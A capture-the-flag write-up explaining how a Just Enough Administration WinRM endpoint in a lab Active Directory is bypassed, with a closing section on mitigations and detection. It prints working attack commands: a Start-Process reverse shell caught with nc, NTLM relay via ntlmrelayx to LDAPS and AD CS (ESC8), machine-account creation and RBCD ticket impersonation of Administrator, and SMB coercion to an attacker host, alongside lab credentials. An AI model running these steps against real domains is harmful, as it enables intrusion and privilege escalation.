



# SINCON CTF 2025: Too Much Administration

This is the second, and final part of the SINCON CTF 2025 writeup series where I covered the more "challenging" parts of the CTF. I'd highly recommend reading the first part: [SINCON 2025: All Too Relayxing](https://blog.async.sg/sincon-2025-adcs-relay.html) as it provides a lot of necessary context for this writeup.

In this writeup, I'll be covering the solve path for Flag 8 - which involved bypassing [Just Enough Administration (JEA)](https://learn.microsoft.com/en-us/powershell/scripting/security/remoting/jea/overview?view=powershell-7.5). For many participants, this was their first time encountering WinRM endpoints protected by JEA, and you'll rarely see this in engagements aside from some hardened environments. However, JEA can be a double-edged sword; if not properly configured, it opens up opportunities for abuse and privilege escalation.

<div class="toc-container">
<button class="toc-toggle" onclick="toggleToc()">Table of Contents</button>
<div class="toc-content" id="tocContent">
<ol>
<li>
<a href="#introduction-and-scenario">Introduction and Scenario</a>
</li>
<li>
<a href="#enumerating-winrm">Enumerating WinRM</a>
<ul>
<li><a href="#failed-command-execution">Failed Command Execution</a></li>
</ul>
</li>
<li>
<a href="#jea-a-tldr">JEA, a TLDR</a>
<ul>
<li><a href="#role-capabilities">Role Capabilities</a></li>
<li><a href="#registration-configuration">Registration Configuration</a></li>
<li><a href="#runasvirtualaccount">RunAsVirtualAccount</a></li>
<li><a href="#configurationname">ConfigurationName</a></li>
<li><a href="#overwriting-defaults">Overwriting Defaults</a></li>
</ul>
</li>
<li>
<a href="#connecting-to-jea">Connecting to JEA</a>
<ul>
<li><a href="#understanding-the-errors">Understanding the Errors</a></li>
<li><a href="#using-pypsrp-directly">Using pypsrp Directly</a></li>
<li><a href="#publicly-available-tools">Publicly Available Tools</a></li>
</ul>
</li>
<li>
<a href="#bypassing-jea">Bypassing JEA</a>
<ul>
<li><a href="#method-1-reverse-shell">Method 1: Reverse Shell</a></li>
<li><a href="#method-2-ntlm-relay-to-ldap-via-http">Method 2: NTLM Relay to LDAP via HTTP</a>
<ul>
<li><a href="#reverse-port-forwarding">Reverse Port Forwarding</a></li>
<li><a href="#creating-a-machine-account">Creating a Machine Account</a></li>
<li><a href="#starting-relay-listener">Starting Relay Listener</a></li>
<li><a href="#sending-http-authentication">Sending HTTP Authentication</a></li>
<li><a href="#receiving-the-relay">Receiving the Relay</a></li>
<li><a href="#resource-based-constrained-delegation">Resource-Based Constrained Delegation</a></li>
</ul>
</li>
<li><a href="#method-3-smb-relay-to-esc8">Method 3: SMB Relay to ESC8</a>
<ul>
<li><a href="#sending-smb-authentication">Sending SMB Authentication</a></li>
<li><a href="#relaying-to-esc8">Relaying to ESC8</a></li>
</ul>
</li>
</ul>
</li>
<li>
<a href="#mitigations--detections">Mitigations & Detections</a>
<ul>
<li><a href="#regularly-review-role-capabilities">Regularly Review Role Capabilities</a></li>
<li><a href="#monitoring-virtual-accounts">Monitoring Virtual Accounts</a></li>
<li><a href="#auditing">Auditing</a></li>
</ul>
</li>
<li>
<a href="#conclusion">Conclusion</a>
</li>
</ol>
</div>
</div>

## Introduction and Scenario



The current scenario is explained in more depth in the first part of the writeup, but to summarize, we have compromised `TABULARIUM` and `SCRIPTORIUM`. Additionally, we have access to a `JESS\Doros_ARCHIVON` user from a previous attack path. The next target is `PORTICUS`, which is also a `Windows Server 2022` machine.

Additionally, a reverse port forward has been established on `TABULARIUM` on Port 445 to redirect all traffic to my machine on Port 445.

## Enumerating WinRM

Using the `JESS\Doros_ARCHIVON` user, we can identify that we have access to the WinRM service on `PORTICUS`.


### Failed Command Execution

However, attempting to use the `-x` option with `nxc` shows that no output is retrieved by the command.


Running the same command with `--debug` shows that the internal executor is throwing an error that `Invoke-Expression` is not found as an available commandlet.


Similarly, attempting to connect to the WinRM service using `evil-winrm` results in the same error:


These errors are occurring because the WinRM service on `PORTICUS` is configured with [Just Enough Administration (JEA)](https://learn.microsoft.com/en-us/powershell/scripting/security/remoting/jea/overview?view=powershell-7.5), which restricts the available commands and modules that can be executed by the user.

## JEA, a TLDR

[Just Enough Administration (JEA)](https://learn.microsoft.com/en-us/powershell/scripting/security/remoting/jea/overview?view=powershell-7.5) is a hardening mechanism in Windows that allows administrators to delegate specific administrative tasks to users without granting them full administrative privileges. It does this by restricting the available commands and modules that can be executed by the user, effectively creating a limited PowerShell environment.

You can view the full documentation [here](https://learn.microsoft.com/en-us/powershell/scripting/security/remoting/jea/overview?view=powershell-7.5), and I strongly recommend reading it to understand how JEA works.

According to the documentation, JEA is designed to:
1. Reduce the number of administrators on your machines 
2. Limit what users run on your machines
3. Better understand what your users are doing on your machines

If you're more familiar with Linux, JEA is similar to the concept of `sudo` with restricted commands, where users can only execute specific commands as a privileged user. 

### Role Capabilities

In JEA sessions, the available commands and modules are defined in a "role capability" file, which is a PowerShell module that specifies the commands and modules that are available to the user. Role capability files are typically stored in the `C:\Program Files\WindowsPowerShell\<ROLE>\RoleCapabilities` directory, where `<ROLE>` is the name of the role.

This file defines the commands and modules that are available to the user, as well as any parameters that can be used with those commands. The following example allows the user to execute only the `Restart-Computer` and `Get-NetIPAddress` commandlets, these are lifted directly off the documentation:

```powershell
VisibleCmdlets = @('Restart-Computer', 'Get-NetIPAddress')
```

The capability file can also have more fine-grained control over the parameters that can be used with each command.

```powershell
VisibleCmdlets = @{
    Name       = 'Restart-Computer'
    Parameters = @{ Name = 'Name' }
}
```

And, additionally supports those pesky argument wildcards that `sudo` also supports:

```powershell
VisibleCmdlets = @(
    @{
        Name       = 'Restart-Service'
        Parameters = @{ Name = 'Name'; ValidateSet = @('Dns', 'Spooler') }
    }
    @{
        Name       = 'Start-Website'
        Parameters = @{ Name = 'Name'; ValidatePattern = 'HR_*' }
    }
)
```

### Registration Configuration

Using the above defined role capabilities, you can create configuration files (that can be applied to `Session Configurations`). An example of how you could create a configuration file for a role located in `C:\Program Files\WindowsPowerShell\Modules\JEA_Test_Module\RoleCapabilities` may look like this:

```powershell
New-PSSessionConfigurationFile -Path "C:\JEA\Configuration.pssc" `
    -SessionType RestrictedRemoteServer `
    -RunAsVirtualAccount `
    -RoleDefinitions @{
        'DOMAIN\Restricted Administrators' = @{ RoleCapabilities = @('JEA_Test_Module') }
}
```

This configuration file can be used with the `Register-PSSessionConfiguration` cmdlet to register a new session configuration that uses the specified role capabilities. 

```powershell
Register-PSSessionConfiguration -Name "Test_JEA" `
    -Path "C:\JEA\Configuration.pssc" `
```

Subsequently, users part of the `DOMAIN\Restricted Administrators` group can connect to the JEA session using the `-ConfigurationName` parameter and execute commands defined in the role capabilities as an Administrator.

```powershell
Enter-PSSession -ComputerName "PORTICUS" -ConfigurationName "Test_JEA"
```

### RunAsVirtualAccount

The `-RunAsVirtualAccount` parameter in `New-PSSessionConfigurationFile` creates a virtual account that is used to run the JEA session. This virtual account is a local account that is created on the machine where the JEA session is running, this means that any remotely connected user will essentially have restricted local administrator privileges on the machine.

```powershell
New-PSSessionConfigurationFile -Path "C:\JEA\Configuration.pssc" `
    -SessionType RestrictedRemoteServer `
    -RunAsVirtualAccount `
    -RoleDefinitions @{
        'DOMAIN\Restricted Administrators' = @{ RoleCapabilities = @('JEA_Test_Module') }
}
```

This flag can be omitted to run the JEA session as a specific user, but in most cases if you are considering JEA - you are probably using it specifically for this functionality.

### ConfigurationName

In Windows, there are 4 default PowerShell session configurations that are registered by default:

```
PS C:\> Get-PSSessionConfiguration | ForEach-Object { $_.Name }
Microsoft.PowerShell
microsoft.powershell.workflow
microsoft.powershell32
microsoft.windows.servermanagerworkflows
```

The default configuration used is `Microsoft.PowerShell`, which is the standard PowerShell session configuration. This can be seen when you run the `Enter-PSSession` command without specifying a configuration name:

```
PS C:\> Enter-PSSession -ComputerName "localhost"
[localhost]: PS C:\> $PSSenderInfo.ConfigurationName
Microsoft.PowerShell
```

You can connect to endpoints using alternative session configurations by specifying the `-ConfigurationName` parameter in the `Enter-PSSession` command. For example, the `microsoft.powershell32` configuration can be used to connect to a 32-bit PowerShell session:

```
PS C:\> Enter-PSSession -ComputerName "localhost" -ConfigurationName "microsoft.powershell32"
[localhost]: PS C:\> $PSSenderInfo.ConfigurationName
microsoft.powershell32
```

Similarly, if there is a custom session configuration registered (such as with JEA), you can connect to it by specifying the configuration name. However, attempting to run `$PSSenderInfo.ConfigurationName` will fail if the session configuration does not support it, as seen in the previous examples with JEA.

```
PS C:\> Enter-PSSession -ComputerName "localhost" -ConfigurationName "Test_JEA"
[localhost]: PS C:\> $PSSenderInfo.ConfigurationName
The term '$PSSenderInfo.ConfigurationName' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again.
```

The following commandlets are enabled by default, regardless of the session configuration.

```
[localhost]: PS> Get-Command

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Function        Clear-Host
Function        Exit-PSSession
Function        Get-Command
Function        Get-FormatData
Function        Get-Help
Function        Measure-Object
Function        Out-Default
Function        Select-Object
```

### Overwriting Defaults

In some situations, you may choose to overwrite the default `microsoft.powershell` configuration with your own custom configuration. This can be done by using the `-Force` parameter when registering the session configuration:

```
Register-PSSessionConfiguration -Name Microsoft.PowerShell -Path "C:\JEA\Configuration.pssc" -Force
```

After doing so, you will be able to connect to the WinRM endpoint without specifying a custom `-ConfigurationName`, as it will now use your custom configuration by default.

```
PS C:\Windows\system32> Enter-PSSession -ComputerName localhost
[localhost]: PS>Get-Command

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Function        Clear-Host
Function        Exit-PSSession
Function        Get-Command
Function        Get-FormatData
Function        Get-Help
Function        Measure-Object
Function        Out-Default
Function        Select-Object
```

However, it is important to note that if you decide that overwriting the default configuration is your only option. You will also need to replace the other default configurations, such as `microsoft.powershell.workflow`, `microsoft.powershell32`, and `microsoft.windows.servermanagerworkflows`, as attackers can simply connect to these configurations instead and maintain full access to the system.

```
PS C:\> Enter-PSSession -ComputerName "localhost" -ConfigurationName "microsoft.powershell32"
[localhost]: PS C:\> Get-Command

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Alias           Add-AppPackage                                     2.0.1.0    Appx
Alias           Add-AppPackageVolume                               2.0.1.0    Appx
Alias           Add-AppProvisionedPackage                          3.0        Dism
Alias           Add-ProvisionedAppPackage                          3.0        Dism
...
```

## Connecting to JEA

Now that you're familiar with JEA, it should be clear why we are unable to execute commands on the `PORTICUS` machine using `nxc` and `evil-winrm`.

### Understanding the Errors

Under the hood, `netexec` uses the `Client` object from [pypsrp](https://github.com/jborean93/pypsrp) to initialize a WinRM connection:

```python
# nxc/protocols/winrm.py#L200
self.conn = Client(
    host=self.host,
    port=self.port,
    auth="ntlm",
    username=f"{self.domain}\\{self.username}",
    password=self.password,
    ssl=self.ssl,
    cert_validation=False,
)

self.check_if_admin()
self.logger.success(f"{self.domain}\\{self.username}:{process_secret(self.password)} {self.mark_pwned()}")
```

The `wsman` protocol is initialized, which should have no issues as it has not yet attempted to utilize the `WinRM` service. However when the `-x` (execute) flag is specified, the `Client->execute_cmd()` or `Client->execute_ps()` methods are called, which will attempt to execute the command on the remote machine.

```python
# nxc/protocols/winrm.py#L231
# slightly modified for better readability
def execute(self, payload=None, get_output=True, shell_type="cmd"):
    if shell_type == "cmd":
        result = self.conn.execute_cmd(payload, encoding=self.args.codec)
    else:
        result = self.conn.execute_ps(payload)
```

The `Client->execute_cmd()` method uses `winrs` to spawn a remote process, and seems to only work with local administrator privileges based on my testing.

```python
# pypsrp/client.py#L174
def execute_cmd(
        self,
        command: str,
        encoding: str = "437",
        environment: typing.Optional[typing.Dict[str, str]] = None,
    ) -> typing.Tuple[str, str, int]:
    ...
        with WinRS(self.wsman, environment=environment) as shell:
            process = Process(shell, command)
            process.invoke()
            process.signal(SignalCode.CTRL_C)
    ...
```

And, the `Client->execute_ps()` starts a `WinRM` session, with the default `microsoft.powershell` configuration, if unspecified, and prepends `Invoke-Expression -Command {...}` to the command to be executed.

```python
# pypsrp/client.py#L231
def execute_ps(
    self,
    script: str,
    configuration_name: str = DEFAULT_CONFIGURATION_NAME,
    environment: typing.Optional[typing.Dict[str, str]] = None,
) -> typing.Tuple[str, PSDataStreams, bool]:
    with RunspacePool(self.wsman, configuration_name=configuration_name) as pool:
        powershell = PowerShell(pool)
        ...
        powershell.add_cmdlet("Invoke-Expression").add_parameter("Command", script)
        powershell.add_cmdlet("Out-String").add_parameter("Stream")
        powershell.invoke()
    return "\n".join(powershell.output), powershell.streams, powershell.had_errors
```

The issue arises when connecting to endpoints that do not allow the `Invoke-Expression` commandlet to be executed, such as the one currently configured on `PORTICUS`.

And similarly, `evil-winrm` uses the [winrm](https://github.com/WinRb/WinRM) ruby gem under the hood to connect and execute commands on the remote machine.

```ruby
# evil-winrm.rb#L323
require 'winrm'

def connection_initialization
...
    $conn = WinRM::Connection.new(
    endpoint: "http://#{$host}:#{$port}/#{$url}",
    user: $user,
    password: $password,
    no_ssl_peer_verification: true,
    user_agent: $user_agent
    )
...
```

And similarly, when the WinRM session is first initialized - `evil-winrm` creates the `shell` object and calls the `$shell->run()` method.

```ruby
# evil-winrm.rb#L636
begin
    time = Time.now.to_i
    print_message('Establishing connection to remote endpoint', TYPE_INFO)
    $conn.shell(:powershell) do |shell|
...
    until command == 'exit' do
        pwd = shell.run('(get-location).path').output.strip
        if $colors_enabled
            command = Readline.readline( "#{colorize('*Evil-WinRM*', 'red')}#{colorize(' PS ', 'yellow')}#{pwd}> ", true)
        else
            command = Readline.readline("*Evil-WinRM* PS #{pwd}> ", true)
        end
        $logger&.info("*Evil-WinRM* PS #{pwd} > #{command}")
...
```

The `shell->run()` method will attempt to execute a command, but of course `Invoke-Expression` is prepended to the command body, which will fail with the same error as before.

```ruby
# winrm/lib/winrm/wsmv/create_pipeline.rb#L45
...
    def command_body
    {
        "#{NS_WIN_SHELL}:Command" => 'Invoke-Expression',
        "#{NS_WIN_SHELL}:Arguments" => arguments
    }
    end
...
```

### Using `pypsrp` Directly

Although the [pypysrp](https://github.com/jborean93/pypsrp) exposes the `execute_ps()` method, you can simply import the underlying classes (`WSMan`, `RunspacePool` and `PowerShell`) to create your own pseudo-shell that doesn't add any fluff.

```python
from pypsrp.wsman import WSMan
from pypsrp.powershell import RunspacePool, PowerShell

wsman = WSMan( 
    server="PORTICUS.jess.kingdom",
    username="Doros_ARCHIVON",
    password="bO3n21E6rc", 
    ssl=False
)

with RunspacePool(wsman) as pool:
    ps = PowerShell(pool)
    ps.add_cmdlet("Get-Command")
    ps.invoke()
    print("---")

    for output in ps.output:
        print(output)
    
    if ps.had_errors:
        for error in ps.streams.error:
            print(error)
    
    print("---")
```

Running the above script will successfully connect to the `PORTICUS` machine and execute the `Get-Command` commandlet, returning the available commands in the JEA session.

```
┌──(kali㉿kali)-[~/sincon]
└─$ proxychains python3 jea.py   
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  127.0.0.1:1081  ...  10.3.20.11:5985  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1081  ...  10.3.20.11:5985  ...  OK
---
Clear-Host
Exit-PSSession
Get-Command
Get-FormatData
Get-Help
Measure-Object
Out-Default
Select-Object
Start-Process
---
```

### Publicly Available Tools

There are a number of open-source tools that help with connecting to JEA-protected endpoints, such as [evil-jea](https://github.com/sashathomas/evil-jea) and [minrm](https://github.com/gatariee/minrm).

This blog post will use `minrm` as an example, which is a minimalistic WinRM client that I wrote out of spite after encountering JEA endpoints. The syntax is the same as `evil-winrm`.


## Bypassing JEA

Now that we have a working JEA session, it's good to know that `Get-Command` is always available, regardless of the session configuration. This allows us to enumerate the available commandlets in the JEA session.

```
[doros_archivon@porticus.jess.kingdom] PS> Get-Command
Output:
Clear-Host
Exit-PSSession
Get-Command
Get-FormatData
Get-Help
Measure-Object
Out-Default
Select-Object
Start-Process
```

### Method 1: Reverse Shell

The output shows that we have access to `Start-Process`, which allows us to start a new process on the remote machine. Using this, we can very simply execute a reverse shell by starting `cmd.exe` or `powershell.exe`. Note that the `-Wait` parameter is required to allow for the connection to be established before the command returns.

```
[doros_archivon@porticus.jess.kingdom] PS> Start-Process -FilePath "cmd.exe" -ArgumentList "/c powershell -e ..." -Wait
```

And we can catch the reverse shell on our local machine using `nc`:

```
┌──(kali㉿kali)-[~/sincon]
└─$ nc -lnvp 445
listening on [any] 445 ...
connect to [127.0.1.1] from (UNKNOWN) [127.0.0.1] 35140

PS C:\Windows\system32> whoami
winrm virtual users\winrm va_33_jess_doros_archivon
```

We obtain a reverse shell as the temporary virtual account created by JEA, which has local administrator privileges on the `PORTICUS` machine.

```
PS C:\Windows\system32> whoami /groups

GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                   
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators               Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group
                                     Unknown SID type S-1-5-94-0   Mandatory group, Enabled by default, Enabled group
```

We'll see that there is an unknown group associated with the `S-1-5-94-0` SID, according to [this](https://superuser.com/questions/248315/list-of-hidden-virtual-windows-user-accounts) post: the SID belongs to `Windows Remoting Virtual Users`

It is trivial to escalate privileges from here, however - it is not normal for `Windows Remoting Virtual Users` to have an active session for extended periods of time, so this may raise some flags.


### Method 2: NTLM Relay to LDAP via HTTP

Alternatively, if you can send requests using protocols that transmit credentials via NTLM (i.e. `SMB`, `HTTP`), you can relay authentication as the `PORTICUS$` machine account, since the JEA session runs with local administrator privileges.

However, relaying `SMB` to `LDAP` is typically not possible as session signing is enabled on `LDAP` by default on all modern Active Directory deployments. Thankfully, as mentioned in [the previous writeup](https://blog.async.sg/sincon-2025-adcs-relay.html#esc8-a-tldr), the HTTP protocol _does not_ support signing, making it possible to relay NTLM authentication to `LDAP` via `HTTP`.

After relaying to LDAP, there are a number of things that we can do such as [Configuring RBCD](https://www.praetorian.com/blog/red-team-privilege-escalation-rbcd-based-privilege-escalation-part-2/) for an attacker-controlled computer account.



#### Reverse Port Forwarding

Firstly on `TABULARIUM`, we can set a reverse port forward to catch the HTTP authentication on Port 8080 (`80` is currently being used for IIS):

```
[05/27 10:26:06] beacon> rportfwd 8080 0.0.0.0 8080
[05/27 10:26:06] [+] started reverse port forward on 8080 to 0.0.0.0:8080
[05/27 10:26:06] [*] Tasked beacon to forward port 8080 to 0.0.0.0:8080
[05/27 10:26:06] [+] host called home, sent: 10 bytes
```

#### Creating a Machine Account

We need to have a machine account to set the `ms-DS-Allowed-To-Act-On-Behalf-Of-Other-Identity` attribute on, thankfully the domain has a `MachineAccountQuota` set to `10` (which is the default setting) - this allows us to create up to 10 machine accounts in the domain.

```
┌──(kali㉿kali)-[~/sincon]
└─$ nxc ldap PALACE-DC.jess.kingdom -u 'Doros_ARCHIVON' -p 'bO3n21E6rc' -M maq
LDAP        10.3.20.31      389    PALACE-DC        [*] Windows Server 2022 Build 20348 (name:PALACE-DC) (domain:jess.kingdom)
LDAP        10.3.20.31      389    PALACE-DC        [+] jess.kingdom\Doros_ARCHIVON:bO3n21E6rc 
MAQ         10.3.20.31      389    PALACE-DC        [*] Getting the MachineAccountQuota
MAQ         10.3.20.31      389    PALACE-DC        MachineAccountQuota: 10
```

We can now create a new machine account `GATARI$` with the password `P@ssw0rd`:

```
┌──(kali㉿kali)-[~/sincon]
└─$ nxc smb PALACE-DC.jess.kingdom -u 'Doros_ARCHIVON' -p 'bO3n21E6rc' -M add-computer -o NAME='GATARI' PASSWORD='P@ssw0rd'  
SMB         10.3.20.31      445    PALACE-DC        [*] Windows Server 2022 Build 20348 x64 (name:PALACE-DC) (domain:jess.kingdom) (signing:True) (SMBv1:False)                                                                                                                                                         
SMB         10.3.20.31      445    PALACE-DC        [+] jess.kingdom\Doros_ARCHIVON:bO3n21E6rc 
ADD-COMP... 10.3.20.31      445    PALACE-DC        Successfully added the machine account: "GATARI$" with Password: "P@ssw0rd"
```

We can also verify that `GATARI$` was created successfully by authenticating against the DC:

```
nxc smb PALACE-DC.jess.kingdom -u 'GATARI$' -p 'P@ssw0rd'                                                              
SMB         10.3.20.31      445    PALACE-DC        [*] Windows Server 2022 Build 20348 x64 (name:PALACE-DC) (domain:jess.kingdom) (signing:True) (SMBv1:False)                                                                                                                                                         
SMB         10.3.20.31      445    PALACE-DC        [+] jess.kingdom\GATARI$:P@ssw0rd
```

#### Starting Relay Listener

Since HTTP authentication will be coming from `8080`, we'll need to configure `ntlmrelayx.py` with the `--http-port` set to `8080`. Additionally, the `--delegate-access` as well as `--escalate-user` flags are set to instruct the tool to add delegation rights to the victim machine account.

```
ntlmrelayx.py -t 'ldaps://PALACE-DC.jess.kingdom' -smb2support --http-port 8080 --delegate-access --escalate-user 'GATARI$'
```

#### Sending HTTP Authentication

We can use the `Invoke-WebRequest` commandlet with the [-UseDefaultCredentials](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.5#-usedefaultcredentials) flag to send an HTTP request using the credentials of the current user to `PORTICUS:8080`, the "current user" in this case is the machine account of `PORTICUS`.


#### Receiving the Relay

Once the HTTP request is received, `ntlmrelayx.py` will relay the authentication to `LDAP@PALACE-DC` and modify the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute of the `PORTICUS` computer, to grant `GATARI$` RBCD on them.


#### Resource-Based Constrained Delegation

Now that `GATARI$` is able to impersonate all users on `PORTICUS`, we can obtain a service ticket to `PORTICUS` as the `Administrator` user and obtain clean access to the machine.

```
getST.py -impersonate 'Administrator' -spn 'cifs/PORTICUS.jess.kingdom' 'jess.kingdom'/'GATARI$':'P@ssw0rd'
Impacket v0.13.0.dev0+20250516.105908.a63c652 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_PORTICUS.jess.kingdom@JESS.KINGDOM.ccache
```

We can then use the `ccache` file to authenticate to `PORTICUS`, and list shares:


### Method 3: SMB Relay to ESC8

With reference to the [first writeup](https://blog.async.sg/sincon-2025-adcs-relay.html), we can also relay the `SMB` authentication to `ESC8` using the same method as before. This is particularly useful if you don't have access to a primitive to send HTTP authentication, such as `Invoke-WebRequest`.

#### Sending SMB Authentication

An SMB share path can be specified in the `-FilePath` parameter to send SMB authentication to the share:

```
[doros_archivon@porticus.jess.kingdom] PS> Start-Process -FilePath "\\TABULARIUM.jess.kingdom\gatari$" -Wait
```

Any other commandlet can be used, such as `-FilePath cmd.exe -ArgumentList net view ...` to enumerate the shares on `TABULARIUM` - which also sends the SMB authentication to `TABULARIUM` but spawns a `cmd.exe`.

#### Relaying to ESC8

We can then relay the SMB authentication to `ESC8` using `ntlmrelayx.py`:

```
ntlmrelayx.py -t 'http://palace-dc.jess.kingdom/certsrv/certfnsh.asp' -smb2support --adcs --template 'Machine' --no-http-server
```



Then, we can exchange the acquired certificate for the NTLM hash of `PORTICUS`:


From here, there are lots of ways to compromise fully `PORTICUS`.

## Mitigations & Detections

While JEA does open up a lot of attack vectors, it is important to note that it is not inherently insecure. The security of JEA depends on the configuration and the role capabilities defined in the role capability files.

Aside from the [security considerations mentioned by Microsoft](https://learn.microsoft.com/en-us/powershell/scripting/security/remoting/jea/security-considerations?view=powershell-7.5), you may also find that implementing the following mitigations and detections can help to reduce the attack surface of JEA. 

### Regularly Review Role Capabilities

In this writeup, the `Start-Process` commandlet was allowed on the JEA endpoint. While this was an exaggeration to demonstrate the attack vector, it is important to note that seemingly harmless commandlets such as `Get-Service` can be used to send SMB authentication to other machines, which can then be chained to other attack vectors such as ESC8.

If you ever have a purpose for these dangerous commandlets, it's highly recommended to restrict the parameters that can be used with them. For example, you can restrict the `Start-Process` commandlet to only allow the user to run an executable at `C:\Projects\HealthCheck.exe`.

```powershell
@{
    Name       = 'Start-Process'
    Parameters = @{ Name = 'FilePath'; ValidateSet = @('C:\Projects\HealthCheck.exe') }
}
```

### Monitoring Virtual Accounts

As mentioned earlier, these virtual accounts associated with JEA commands are not meant to be used for extended periods of time. It is also important to be conscious of what commands are allowed to be run by these virtual accounts.

For example, if the following role capability file is registered. It is highly unlikely for any process to be owned by `winrm virtual users\winrm va_x_computername_username`.

```powershell
@{
    Name       = 'Start-Process'
    Parameters = @{ Name = 'FilePath'; ValidateSet = @('C:\Projects\HealthCheck.exe') }
}
```

Detection and monitoring capabilities can then be used to alert on any processes that are owned by these virtual accounts, as they are not meant to be used for extended periods of time.

```sql
event.code: "1" and winlog.user.name: "winrm va_*" and not process.name: ("HealthCheck.exe" or "wsmprovhost.exe")
```

### Auditing

JEA also has built-in auditing capabilities that can be enabled to log all commands executed in a JEA session. This can be done by setting the `TranscriptDirectory` parameter in the session registration. 

More information can be found: [here](https://learn.microsoft.com/en-us/powershell/scripting/security/remoting/jea/audit-and-report?view=powershell-7.5)


## Conclusion

While JEA is a powerful tool for restricting administrative access, it can also lead to unintended consequences if not properly configured. For example, the `JESS\Doros_ARCHIVON` user is not a local administrator on `PORTICUS`, but the JEA session allows it to execute commands as a local administrator, which opened up the possibility for privilege escalation.

A lot of work went into building this lab, but it was worth it - many participants got hands-on experience with JEA for the first time, and that exposure could be useful during future engagements.